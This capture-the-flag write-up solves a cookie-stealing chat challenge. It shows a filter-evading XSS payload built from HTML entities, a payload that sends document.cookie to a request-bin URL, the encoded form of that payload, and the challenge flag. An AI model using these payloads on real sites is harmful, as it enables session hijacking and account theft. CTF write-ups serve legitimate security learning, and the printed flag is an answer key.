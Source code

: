 ![](./images/logo.png)

We're initially provided with a webpage including a cauliflower video and a chat system.

![](./images/start.png)

With the name of the challenge as a hint, we may be tasked with stealing cookies. This suggests XSS (Cross Site Scripting) will be involved. 

The first thing to try is classic XSS payload:

```html
<script>
    alert('xss')
</script>
```
This will display a pop-up with the text `XSS` if the website is vulnerable.

This, however, gets filtered out by the system:

![](./images/hacker.png)

We're going to have to be clever about this.

Using the [OWASP XSS Cheat sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet). We can try and circumvent the check.

After some trial and error we come across the payload:

```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

When executed it is decoded as:
```html
<img src=x onerror="javascript:alert('XSS')">
```

Writing a quick python script to encode this gives us the ability to make custom XSS exploits that will pass the filter.

To steal the cookie, we're going to use a "request bin" this will absorb and record all values sent to it.

Using the link to the newly initialized request bin, we can form the payload:
```javascript
javascript:document.location='https://postb.in/1561312937795-3777385130524?cookie='+document.cookie;
```
This will take all the values stored in cookies and send them to the url. This will allows us to view the values of all cookies.

And when encoded gives us this unit:
```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000100&#0000111&#0000099&#0000117&#0000109&#0000101&#0000110&#0000116&#0000046&#0000108&#0000111&#0000099&#0000097&#0000116&#0000105&#0000111&#0000110&#0000061&#0000039&#0000104&#0000116&#0000116&#0000112&#0000115&#0000058&#0000047&#0000047&#0000112&#0000111&#0000115&#0000116&#0000098&#0000046&#0000105&#0000110&#0000047&#0000049&#0000053&#0000054&#0000049&#0000051&#0000049&#0000050&#0000057&#0000051&#0000055&#0000055&#0000057&#0000053&#0000045&#0000051&#0000055&#0000055&#0000055&#0000051&#0000056&#0000053&#0000049&#0000051&#0000048&#0000053&#0000050&#0000052&#0000063&#0000099&#0000111&#0000111&#0000107&#0000105&#0000101&#0000061&#0000039&#0000043&#0000100&#0000111&#0000099&#0000117&#0000109&#0000101&#0000110&#0000116&#0000046&#0000099&#0000111&#0000111&#0000107&#0000105&#0000101&#0000059">
```

That when entered will re-direct your own page as well as the admins.

This will provide this output in the request bin

![](./images/flag.png)

Thus, giving us the flag!

FLAG:
```
CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}
```